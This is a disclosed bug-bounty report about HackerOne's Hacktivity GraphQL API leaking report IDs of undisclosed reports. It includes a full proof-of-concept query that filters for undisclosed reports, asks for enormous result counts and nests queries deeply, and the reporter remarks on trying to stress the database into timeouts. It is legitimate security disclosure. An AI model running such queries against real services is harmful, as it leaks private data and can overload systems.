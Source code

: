 # report id is exposed for undisclosed reports in Hacktivity

## Report Details
- **Report ID**: 493484
- **URL**: https://hackerone.com/reports/493484
- **State**: Closed
- **Severity**: low
- **Submitted**: 2019-02-10T06:29:41.116Z
- **Disclosed**: 2019-02-16T00:53:26.983Z

## Reporter
- **Username**: 0619
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
This is similar to https://hackerone.com/reports/127620 where the report Id of undisclosed report is visible on graphql query
**Description:**
The new hacktivity graphql query includes undisclosed reports, but part of the query result is the report id which is included in private information of undisclosed report.


Also I'm trying to transfer my stress in your database :) using the new updated node of `votes`, but it has limit of 15 `"message": "Query has depth of 16, which exceeds max depth of 15"` and resulting query timeout.


### Steps To Reproduce
`{"query":"query Better_hacktivity_page($first_0:Int!,$last_3:Int!,$order_by_1:HacktivityItemOrderInput!,$where_2:FiltersHacktivityItemFilterInput!,$size_4:ProfilePictureSizes!) {query {id,...Fc}} fragment F0 on HacktivityItemInterface {id,__typename} fragment F1 on HacktivityItemInterface {votes {total_count},_votes20kQZj:votes(last:$last_3) {edges {node {id,user {username,id,reports{total_count, edges { node {id, title,url, attachments{_id}       },     cursor }}}},cursor},pageInfo {hasNextPage,hasPreviousPage}},upvoted_by_current_user,id,__typename,...F0} fragment F2 on Undisclosed {id,_id,reporter {username,id},team {handle,name,_profile_picture1Fh783:profile_picture(size:$size_4),url,id},latest_disclosable_action,latest_disclosable_activity_at,requires_view_privilege,total_awarded_amount,currency} fragment F3 on Undisclosed {id,...F2} fragment F4 on PubliclyDisclosed {id,reporter {username,id},team {handle,name,_profile_picture1Fh783:profile_picture(size:$size_4),url,id},report {title,substate,url,id},latest_disclosable_action,latest_disclosable_activity_at,total_awarded_amount,severity_rating,currency} fragment F5 on PubliclyDisclosed {id,...F4} fragment F6 on HackerPublished {id,reporter {username,id},team {handle,name,_profile_picture1Fh783:profile_picture(size:$size_4),url,id},report {url,title,substate,id},latest_disclosable_activity_at,severity_rating} fragment F7 on HackerPublished {id,...F6} fragment F8 on Node {id,__typename} fragment F9 on HacktivityItemUnion {__typename,...F1,...F3,...F5,...F7,...F8} fragment Fa on HacktivityItemInterface {id,_id,__typename,...F9} fragment Fb on HacktivityItemConnection {total_count,pageInfo {hasNextPage,hasPreviousPage},edges {cursor,node {__typename,...Fa,...F8}}} fragment Fc on Query {_hacktivity_items26cuhk:hacktivity_items(first:$first_0,query:\"\",order_by:$order_by_1,where:$where_2) {total_count,...Fb},id}","variables":{"first_0":10025000,"last_3":10000000,"order_by_1":{"field":"popular","direction":"DESC"},"where_2":{"report":{"disclosed_at":{"_is_null":true}}},"size_4":"medium"}}`

### Optional: Your Environment (Browser version, Device, etc)

{F421247} shows the report id of undisclosed report.

Please, if this is N/A let me close it.  thank you.

## Impact

Information disclosure of report id

## Attachments
- reportId.png
